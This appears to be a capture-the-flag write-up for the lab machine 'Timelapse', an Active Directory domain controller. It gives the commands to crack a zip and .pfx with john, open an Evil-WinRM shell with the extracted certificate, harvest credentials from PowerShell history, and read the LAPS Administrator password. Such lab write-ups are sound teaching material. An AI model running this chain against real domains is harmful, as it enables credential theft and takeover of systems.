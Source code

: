 # Timelapse

### Reconnaissance

Nmap scans run very slowly on the target

Appears to be an Active Directory DC; kerberos, ldap, ldaps, dns, etc. running on the target

**Port 445 SMB**

Shares are visible

![Shares](./pictures/smb-shares.png)

Inside the share there are 2 directories, Dev and HelpDesk

Dev contains a password protected zip archived (cracked) .pfx file (cracked), and HelpDesk contains documents
on LDAPS and an LDAPS x64 .msi file (hint hint?)

![Files](./pictures/smb-files.png)

### Exploitation

Crack the .zip

`zip2john winrm_backup.zip > zip_hash.txt`
`john -w=rockyou.txt zip_hash.txt`

Crack the .pfx

`pfx2john legacyy_dev_auth.pfx | john -w=rockyou.txt /dev/stdin`

Extract to a .pem file

`openssl pkcs12 -in legacyy_dev_auth.pfx -nodes -out cert.pem`

Use Evil-WinRM to get a user shell with the .pem file

`evil-winrm -i 10.10.11.152 -S -k cert.pem -c cert.pem`

Check services with evil-winrm

![Services](./pictures/services.png)

Manual enumeration leads us to the PowerShell history for legacyy

`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Which contains credentials for the svc_deploy user

![svc_deploy](./pictures/svc_deploy-creds.png)

Use Evil-WinRM to get a shell as svc_deploy

`evil-winrm -i 10.10.11.152 -S -u svc_deploy -p password`

svc_deploy is a member of the group LAPS_Reader, which means we can read the Administrator password

![svc_deploy groups](./pictures/svc_deploy-groups.png)

`PS C:\> Get-AdComputer DC01 -Property 'ms-mcs-admpwd'`

Use the password to get a shell with Evil-WinRM as the Administrator

### Lessons Learned

- Check your nmap scans are behaving normally! -A is weird, use -sC -sV

- .pfx files can be cracked with john, then extracted [to .pem](https://www.xolphin.com/support/Certificate_conversions/Convert_pfx_file_to_pem_file) or [to .key](https://support.citrix.com/article/CTX229158/how-to-extract-the-private-and-public-key-from-pfx-file) files
exit

- When using `ls` in `smbclient` add \ after the directory name to list the contents e.g. `smb: \> ls Dev\`

- Evil-WinRM can be used with pem files

- Don't forget to check PowerShell history  
`C:\Users\User\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

- Read LAPS Administrator passwords with `Get-ADComputer <PC name> -Property 'ms-mcs-admpwd'`
